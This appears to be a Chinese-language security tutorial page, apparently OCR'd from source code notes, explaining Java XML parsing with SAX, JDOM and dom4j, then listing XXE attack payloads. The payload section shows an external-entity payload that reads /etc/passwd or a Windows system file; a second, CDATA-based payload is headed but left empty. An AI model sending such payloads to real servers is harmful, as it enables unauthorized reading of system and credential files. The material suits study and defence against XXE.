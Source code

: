 
### sax

SAX基于流的解析方式边读XML边解析，并以事件回调的方式返回数据，所以在解析函数中需要传入一个继承自`DefaultHandler`的回调对象。包含`startDocument()、startElement()、characters()、endElement()`等事件。分别表示开始读取xml文档、读取到元素<student>、读取到字符、读取到结束元素</student>等。

```java
import javax.xml.parsers.*;

File f=new File("student.xml");
SAXParserFactory saxParserFactory=SAXParserFactory.newInstance();
SAXParser saxParser=saxParserFactory.newSAXParser();
MyHandler dh = new MyHandler();
saxParser.parse(f, dh); // 需要传入一个回调函数，解析过程中的处理取决于回调函数
```

### jdom

DOM是与平台和语言无关的方式表示XML文档的官方标准。JDOM则是在DOM基础上开发的针对Java的扩展。

```java
import org.jdom.*;

File f=new File("student.xml");
SAXBuilder builder=new SAXBuilder();
Document document=builder.build(f);

List Nodelists=document.getRootElement().getChildren();
for (int i=0;i<Nodelists.size();i++){
    System.out.println(((Element)(Nodelists.get(i))).getChild("name").getText());
}
```

### dom4j

DOM4J是JDOM的一个分支，提供了更大的灵活性。Hibernate就采用DOM4J来读取配置文件

```java
import org.dom4j.*;

File f=new File("student.xml");
SAXReader reader=new SAXReader();
Document document=reader.read(f);

Iterator i=document.getRootElement().elementIterator();
while (i.hasNext()) {
    Element foo = (Element) i.next();
    System.out.println(foo.getName() + "=" + foo.getStringValue());
}
```

## payloads
### 有回显
有回显，可以用file或者netdoc协议读取文件
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [
        <!ELEMENT creds ANY>
        <!ENTITY xxe SYSTEM "file:///etc/passwd">   <! --或为"file:///c:/windows/system.ini"-->
        ]>
<creds>&xxe;</creds>
```
有回显，且读取的文件包含特殊字符，用CDATA包住文本避免被解析。
```xml
<! --payload.xml-->

```